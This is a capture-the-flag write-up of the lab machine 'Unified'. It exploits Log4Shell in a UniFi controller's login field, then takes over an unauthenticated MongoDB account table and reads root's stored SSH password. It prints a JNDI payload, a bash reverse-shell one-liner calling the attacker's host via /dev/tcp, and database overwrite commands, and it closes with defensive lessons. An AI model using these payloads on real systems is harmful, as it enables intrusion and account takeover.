







import Toggle from '@components/Toggle.astro';
import Callout from '@components/Callout.astro';
import FlagCapture from '@components/FlagCapture.astro';
import AttackPath from '@components/AttackPath.astro';

> A Linux box where the conveniences that make it easy to operate (chatty logging, a trusted local datastore, recoverable device passwords) are also what undo it.

## Recon

> A box named Unified, which sounds like one thing in charge of many. The ports should tell me what that one thing is.

First, confirm the host is actually up.

<Toggle label="Host reachability <code>ping</code>">

```bash frame="code" title="Bash" {4}
┌──(Idan@Kali)-[~/Unified]
└─> ping 10.129.96.149
PING 10.129.96.149 (10.129.96.149) 56(84) bytes of data.
64 bytes from 10.129.96.149: icmp_seq=1 ttl=63 time=82.8 ms
64 bytes from 10.129.96.149: icmp_seq=2 ttl=63 time=74.6 ms
64 bytes from 10.129.96.149: icmp_seq=3 ttl=63 time=75.3 ms
64 bytes from 10.129.96.149: icmp_seq=4 ttl=63 time=74.5 ms
--- 10.129.96.149 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3008ms
rtt min/avg/max/mdev = 74.482/76.807/82.769/3.457 ms
```

</Toggle>

Four pings, four replies, the first a little slow and the rest steady at about 75 ms. Each one carries `ttl=63`, which is Linux's 64 with a single hop knocked off. The scan settles the rest.

<Toggle label="Aggressive scan, OS detection & extended service enumeration <code>nmap</code>">

```bash frame="code" title="Bash" {15,22}
┌──(Idan@Kali)-[~/Unified]
└─> nmap -A 10.129.96.149
Starting Nmap 7.98 ( https://nmap.org )
Nmap scan report for 10.129.96.149
Host is up (0.083s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
6789/tcp open  ibm-db2-admin?
8080/tcp open  http            Apache Tomcat (language: en)
|_http-title: Did not follow redirect to https://10.129.96.149:8443/manage
|_http-open-proxy: Proxy might be redirecting requests
8443/tcp open  ssl/nagios-nsca Nagios NSCA
| ssl-cert: Subject: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
| Subject Alternative Name: DNS:UniFi
| Not valid before: 2021-12-30T21:37:24
|_Not valid after:  2024-04-03T21:37:24
| http-title: UniFi Network
|_Requested resource was /manage/account/login?redirect=%2Fmanage
|_ssl-date: TLS randomness does not represent time
Device type: general purpose|router
Running: Linux 5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 443/tcp)
HOP RTT       ADDRESS
1   140.44 ms 10.10.14.1
2   140.53 ms 10.129.96.149

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 177.36 seconds
```

</Toggle>

Port 8080 is Tomcat, and all it does is send me to port 8443. Whatever `nmap` thinks the service on 8443 is, its page title and its certificate both say UniFi, Ubiquiti's network controller.

<Callout type="recon">

- 22/tcp : OpenSSH 8.2p1 (Ubuntu)
- 6789/tcp : unidentified, `nmap` can only guess
- 8080/tcp : Apache Tomcat, redirecting to port 8443
- 8443/tcp : UniFi Network over HTTPS, with a certificate in Ubiquiti's name

Two of the four ports lead to one place, a UniFi login page. SSH wants a credential I do not have and port 6789 gives me nothing to aim at, so the controller is where I start.

</Callout>

---

## Web Enumeration

> The web side of this box is one UniFi controller. A product like this is only as safe as its build number, so the first job is to read the version off the login page.

First, map the hostname so the controller answers to its own name:

```bash frame="code" title="Bash"
┌──(Idan@Kali)-[~/Unified]
└─> sudo nano /etc/hosts
# Add the following line
10.129.96.149  unified.htb
```

Browsing to `unified.htb` on port 8080 bounces straight to the UniFi login on port 8443, and the version sits under the logo.


*The login page names the build: UniFi Network 6.4.54.*

A build number that specific is worth a search. UniFi Network patched CVE-2021-44228, the Log4Shell remote code execution in Log4j, in release 6.5.54. Every build before it, 6.4.54 included, still logs user input through a vulnerable Log4j.

- Fix release: https://community.ui.com/releases/UniFi-Network-Application-6-5-54/d717f241-48bb-4979-8b10-99db36ddabe1

<Callout type="intel">

- The controller is UniFi Network 6.4.54, one minor release short of the build that fixed Log4Shell.
- Log4Shell lives in Log4j, a logging library, so any input that ends up in a log is a possible way in.
- The controller puts its login form in front of everything else, so that form's fields are the first input I can try.

</Callout>

---

## Foothold: Log4Shell in the Login

> The login logs the remember field whether or not the credentials are real. Put a JNDI lookup in that field and the server does the looking up.

### Confirming the Injection

Opening the login request in Burp Suite shows the shape of what gets logged.


*The login posts a small JSON body with username, password, remember and strict.*

The body carries four fields. `remember` is a boolean the server logs while it handles the attempt.

<Callout type="vuln">

Log4j 2.x, which the controller logs through, expands a `${jndi:ldap://host/path}` lookup the moment it writes the string to a log. Put that lookup in the `remember` field and the server connects to an LDAP address I choose. The reply is a reference, and Tomcat classes already on the controller turn it into my command. The lookup fires with made-up credentials, so no account is needed.

</Callout>

Before building anything, I check the lookup actually fires. I set `remember` to `${jndi:ldap://10.10.15.199:1389/test}` and watch port 1389 for the controller calling back.

<Toggle label="Watching for the callback <code>tcpdump</code>">

```bash frame="code" title="Bash" {5,7}
┌──(Idan@Kali)-[~/Unified]
└─> sudo tcpdump -ni tun0 tcp port 1389
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
07:17:10.541667 IP 10.129.96.149.48682 > 10.10.15.199.1389: Flags [S], seq 2201983409, win 64240, options [mss 1362,sackOK,TS val 2096972707 ecr 0,nop,wscale 7], length 0
07:17:10.541833 IP 10.10.15.199.1389 > 10.129.96.149.48682: Flags [R.], seq 0, ack 2201983410, win 0, length 0
07:17:12.243786 IP 10.129.96.149.48684 > 10.10.15.199.1389: Flags [S], seq 2614856580, win 64240, options [mss 1362,sackOK,TS val 2096974408 ecr 0,nop,wscale 7], length 0
07:17:12.243915 IP 10.10.15.199.1389 > 10.129.96.149.48684: Flags [R.], seq 0, ack 2614856581, win 0, length 0
```

</Toggle>

The controller opens a connection to my port 1389, twice. Nothing is listening there yet, so each `[S]` is met with an `[R.]` reset. That is all I need: the `remember` field reached the logger, and the JNDI lookup ran.

### Delivering the Reverse Shell

Now port 1389 needs something to answer the lookup. `rogue-jndi` is a malicious LDAP server built for exactly this, so I clone it and build it with Maven (`mvn package`).

- Tool: https://github.com/artsploit/rogue-jndi

The payload it will serve is a bash reverse shell, base64-encoded so it survives the round trip.

<Toggle label="Encoding the reverse shell <code>base64</code>">

```bash frame="code" title="Bash"
┌──(Idan@Kali)-[~/Unified/rogue-jndi]
└─> echo 'bash -c bash -i >&/dev/tcp/10.10.15.199/8888 0>&1' | base64
YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTUuMTk5Lzg4ODggMD4mMQ=
```

</Toggle>

`rogue-jndi` takes the encoded one-liner as its `--command`. It does not hand that command over in just one form.

It publishes several payloads, each at its own `o=` path. Each one is built for a different library the target might have. The path in my lookup, the spot where `test` sat earlier, decides which payload comes back.

A wrong path fails in one of two ways. If I ask for a path `rogue-jndi` does not publish, the reply is empty. If I ask for a payload built for a library the controller lacks, the reply comes back, but the box has no way to use it.

So the path has to match the box. The scan already told me what that means: port 8080 is Tomcat, so my lookup asks for `o=tomcat`.

<Toggle label="Serving the payload <code>rogue-jndi</code>">

```bash frame="code" title="Bash"
┌──(Idan@Kali)-[~/Unified/rogue-jndi]
└─> java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTUuMTk5Lzg4ODggMD4mMQo=}|
{base64,-d}|{bash,-i}" --hostname "{10.10.15.199}"
```

</Toggle>

With the server up, I start a listener for the shell, then replay the login one more time.


*The remember field now carries the JNDI lookup in place of true. Sending it is what lands the shell.*

<Toggle label="Catching the shell <code>penelope</code>">

```bash frame="code" title="Bash" {4}
┌──(Idan@Kali)-[~/Unified]
└─> penelope -p 8888
[+] Listening for reverse shells on 0.0.0.0:8888
[+] [New Reverse Shell] => unified 10.129.96.149 Linux-x86_64 👤 unifi(999) 😍️ Session ID <1>
```

```bash frame="code" title="Shell"
bash -i
unifi@unified:/usr/lib/unifi$ whoami
unifi
unifi@unified:/usr/lib/unifi$ id
uid=999(unifi) gid=999(unifi) groups=999(unifi)
```

</Toggle>

I land as `unifi`, the service account the controller runs as, and the user flag is waiting in the home directory of `michael` with nothing in the way.

<Toggle label="Reading the user flag <code>cat</code>">

```bash frame="code" title="Shell"
unifi@unified:/usr/lib/unifi$ cd /home
unifi@unified:/home$ ls
michael
unifi@unified:/home$ cd michael
unifi@unified:/home/michael$ ls
user.txt
unifi@unified:/home/michael$ cat user.txt
<user flag>
```

</Toggle>

### <span class="task-title">User Flag</span>

<FlagCapture type="user" flag="6ced1a6a89e666c0620cdb10262ba127" />

---

## Privilege Escalation

> A shell as unifi owns the controller but not the box. The controller keeps its state in a database, and that database is the next thing worth asking about.

### Reaching the Controller's Database

If that database lives on this box, it shows up as a process. I run LinPEAS and read its process list.

```bash frame="code" title="Shell"
Process 68 (unifi) - bin/mongod --dbpath /usr/lib/unifi/data/db --port 27117 --unixSocketPrefix /usr/lib/unifi/run --logR
Unusual number of FDs: 154
```

There it is: `mongod`, running as `unifi` on port 27117. Its data lives under `/usr/lib/unifi`, the controller's own install directory. A plain `ps aux | grep mongo` would have found it too.

Port 27117 never showed up in the scan. It listens on localhost only, so no scan from Kali was ever going to find it. Reaching it takes a shell on the box, and I already have one.

<Toggle label="Connecting and listing the databases <code>mongo</code>">

```bash frame="code" title="Shell"
unifi@unified:/tmp$ mongo --port 27117 ace
MongoDB shell version v3.6.3
connecting to: mongodb://127.0.0.1:27117/ace
MongoDB server version: 3.6.3
show databases
ace       0.002GB
ace_stat  0.000GB
admin     0.000GB
config    0.000GB
local     0.000GB
```

</Toggle>

`mongo` never asks who I am. No username, no password, and it still lists five databases.

Ubiquiti's own forum says which one is the controller's. A reply there documents the setting `unifi.db.name` as defaulting to `ace`.

- Ubiquiti on the default database name: https://community.ui.com/questions/External-MongoDB-Server/d311a8f8-43b6-4aeb-859d-eefec9dc1bbc?replyId=b8a080b0-d05a-493c-914c-c804709c8d4a

With `ace` open, I dump the whole `admin` collection.

<Toggle label="Enumerating the accounts <code>db.admin.find()</code>">

```javascript frame="code" title="JSON"
// db.admin.find(), reformatted to put each account's identity and hash in focus
{
  "_id": ObjectId("61ce278f46e0fb0012d47ee4"),
  "name": "administrator",
  "email": "administrator@unified.htb",
  "x_shadow": "$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4."
  // identity and hash are the fields that matter here
}
{
  "_id": ObjectId("61ce4a63fbce5e00116f424f"),
  "name": "michael",
  "email": "michael@unified.htb",
  "x_shadow": "$6$spHwHYVF$mF/VQrMNGSau0IP7LjqQMfF5VjZBph6VUf4clW3SULqBjDNQwW.BlIqsafYbLWmKRhfWTiZLjhSP.D/M1h5yJ0"
}
{
  "_id": ObjectId("61ce4ce8fbce5e00116f4251"),
  "name": "Seamus",
  "email": "seamus@unified.htb",
  "x_shadow": "$6$NT.hcX..$aFei35dMy7Ddn.O.UFybjrAaRR5UfzzChhIeCs0lp1mmXhVHol6feKv4hj8LaGe0dTiyvq1tmA.j9.kfDP.xC."
}
{
  "_id": ObjectId("61ce4d27fbce5e00116f4252"),
  "name": "warren",
  "email": "warren@unified.htb",
  "x_shadow": "$6$DDOzp/8g$VXE2i.FgQSRJvTu.8G4jtxhJ8gm22FuCoQbAhhyLFCMcwX95ybr4dCJR/Otas100PZA9fHWgTpWYzth5KcaCZ."
}
{
  "_id": ObjectId("61ce4d51fbce5e00116f4253"),
  "name": "james",
  "email": "james@unfiied.htb",
  "x_shadow": "$6$ON/tM.23$cp3j11TkOCDVdy/DzOtpEbRC5mqbi1PPUM6N4ao3Bog8rO.ZGqn6Xysm3v0bKtyclltYmYvbXLhNybGyjvAey1"
}
```

</Toggle>

<Callout type="intel">

- The `admin` collection holds every UniFi account, each with its password stored as an `x_shadow` crypt hash.
- The database trusts anything already on the box, since it only listens on localhost.
- If the connection writes as freely as it reads, I do not have to crack the hash for `administrator`. I can replace it with one whose password I already know.

</Callout>

### Taking Over the administrator Account

First I generate a hash for a password I choose, in the SHA-512 crypt format the field uses.

<Toggle label="Generating a password hash <code>mkpasswd</code>">

```bash frame="code" title="Bash"
┌──(Idan@Kali)-[~/Unified]
└─> mkpasswd -m sha-512 IdanWasHere
$6$u0E8/OkBLvMFD4rn$bkzsdPRtE1PPMTdkZYbS0P2V.ZCIns6t8IRyNMK5CTXQncaMFPmnPeWUtR/VrJujFs6AX8e663P7PlRyO/AdK.
```

</Toggle>

That hash belongs in the database, so I switch back to the `mongo` shell still open on the box. The insert and the update below both run there, not in Kali.

Before I touch `administrator`, I want to know the collection takes a write at all. So I insert a throwaway account and read it back. It is only a test, and nothing uses that account again.

<Toggle label="Confirming the write <code>db.admin.insert()</code>">

```javascript frame="code" title="MongoDB"
db.admin.insert({ "email" : "null@localhost.local", "last_site_name" : "default", "name" : "idan", "time_created" : NumberLong(100019800), "x_shadow" : "$6$u0E8/OkBLvMFD4rn$bkzsdPRtE1PPMTdkZYbS0P2V.ZCIns6t8IRyNMK5CTXQncaMFPmnPeWUtR/VrJujFs6AX8e663P7PlRyO/AdK." })
WriteResult({ "nInserted" : 1 })

# Running db.admin.find().forEach(printjson) to make sure it worked:
{
        "_id" : ObjectId("...f56bbb9505d37d9e"),
        "email" : "null@localhost.local",
        "last_site_name" : "default",
        "name" : "idan",
        "time_created" : NumberLong(100019800),
        "x_shadow" : "$6$u0E8/OkBLvMFD4rn$bkzsdPRtE1PPMTdkZYbS0P2V.ZCIns6t8IRyNMK5CTXQncaMFPmnPeWUtR/VrJujFs6AX8e663P7PlRyO/AdK."
}
# The idan document I just inserted, hash and all
```

</Toggle>

The insert lands, so I make the write that matters: `administrator` gets the hash I just generated in its `x_shadow` field.

<Toggle label="Overwriting administrator's password <code>db.admin.update()</code>">

```javascript frame="code" title="MongoDB" {2}
db.admin.update({"_id":ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$u0E8/OkBLvMFD4rn$bkzsdPRtE1PPMTdkZYbS0P2V.ZCIns6t8IRyNMK5CTXQncaMFPmnPeWUtR/VrJujFs6AX8e663P7PlRyO/AdK."}})
WriteResult({ "nMatched" : 1, "nUpserted" : 0, "nModified" : 1 })
```

</Toggle>

`nModified` is 1, so the hash stored for `administrator` is now one I made, and the password behind it is mine.


*Back at the UniFi login, signing in as administrator with that password.*

The controller lets me straight in.


*Inside the controller as administrator, on the Default site.*

As an administrator I can read the controller's own secrets. Under Settings, Device Authentication holds the SSH credentials it uses to reach its devices.


*Device Authentication keeps an SSH account, username root, the password hidden behind the field mask.*

I click the reveal icon beside the field.


*The mask lifts: root's SSH password, stored in the clear.*

<Callout type="loot">

- `root` : `NotACrackablePassword4U2022` (Device Authentication's stored SSH credential, read in the clear)

</Callout>

With root's password in hand, port 22 is finally worth a try.

<Toggle label="Logging in over SSH <code>ssh</code>">

```bash frame="code" title="Bash"
┌──(Idan@Kali)-[~/Unified]
└─> ssh root@10.129.96.149
root@10.129.96.149's password:
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-77-generic x86_64)
root@unified:~# whoami
root
```

</Toggle>

The password from the UI logs straight in: the credential the controller stored for its devices turns out to be the box's own root password. This time the shell is root on the host itself, not a service account inside it.

<Toggle label="Reading the root flag <code>cat</code>">

```bash frame="code" title="SSH"
root@unified:~# ls
root.txt
root@unified:~# cat root.txt
<root flag>
```

</Toggle>

### <span class="task-title">Root Flag</span>

<FlagCapture type="root" flag="e50bc93c75b634e4b272d2f771c33681" />

---

## Summary

The whole path in one breath: UniFi Network 6.4.54 writes my login attempt into a log through a vulnerable Log4j, so a JNDI lookup in the `remember` field is all it takes to make the controller fetch my command and run it. That lands a shell as `unifi`, the service account the controller runs as, and the user flag is sitting in `michael`'s home with nothing in front of it. The controller's own MongoDB answers on localhost with no password at all, and it writes as freely as it reads. So I overwrite the stored hash for `administrator` with one I generated, and sign into the UniFi UI as that account. Its Device Authentication page keeps root's SSH password in the clear, and that password logs me straight in over SSH for the root flag.

<AttackPath
  title="Attack Path · unified.htb"
  nodes={[
    { kind: 'Web', name: 'UniFi 6.4.54', detail: [ { k: 'port', v: '<code>8443/tcp</code>, the UniFi Network controller' }, { k: 'flaw', v: 'Log4Shell in the string it logs on login' } ] },
    { kind: 'User', name: 'unifi', edge: '<b>Log4Shell</b>', detail: [ { k: 'shell', v: 'a rogue LDAP server answers the lookup and serves the payload' }, { k: 'flag', v: '<code>user.txt</code> in <code>/home/michael</code>' } ] },
    { kind: 'Service', name: 'MongoDB', edge: 'open on <b>localhost</b>', detail: [ { k: 'access', v: 'unauthenticated read and write to the <code>ace</code> database' }, { k: 'holds', v: 'the <code>admin</code> account table, hashes in <code>x_shadow</code>' } ] },
    { kind: 'Account', name: 'administrator', edge: 'overwrites <b>x_shadow</b>', detail: [ { k: 'write', v: '<code>db.admin.update()</code> sets a hash I generated' }, { k: 'opens', v: 'the UniFi UI as <code>administrator</code>' } ] },
    { kind: 'Root', name: 'root', edge: 'reads the <b>SSH password</b>', detail: [ { k: 'source', v: 'Device Authentication stores it in the clear' }, { k: 'flag', v: '<code>ssh</code> as root, <code>root.txt</code>' } ] },
  ]}
/>

---

## Reflection

Three lessons, one per stage of the chain:

1. **A string meant only for a log is still attacker input.** The controller never tried to authenticate my `remember` value: a made-up login was enough to put it in the log, and Log4j read the `${jndi:...}` inside the logged string as an instruction. Untrusted text has to stay inert everywhere it travels, logging included, not only where the application parses it on purpose.
2. **A service on localhost is not a closed door.** MongoDB asked for no credential because it assumed only the controller could reach it, and a reverse shell made that assumption false. Binding to localhost narrows who can connect, but it is not authentication, and the moment an attacker holds any shell on the host the database is theirs to read and rewrite.
3. **A secret an interface will reveal on request is a secret an attacker can reveal too.** The controller stored root's SSH password so its own UI could hand it back, and that convenience is what turned a controller administrator into root on the host. Device credentials belong behind a key the interface cannot print, not behind a reveal icon.

<Callout type="defense">

Upgrade UniFi Network past 6.5.54 so the Log4j lookup never fires, and run it on a Java runtime with `log4j2.formatMsgNoLookups` set regardless. Make MongoDB require authentication even on localhost, so a shell as `unifi` cannot read or rewrite the account table. And store device credentials as a key the UI cannot reveal. Any one of these breaks the chain.

</Callout>
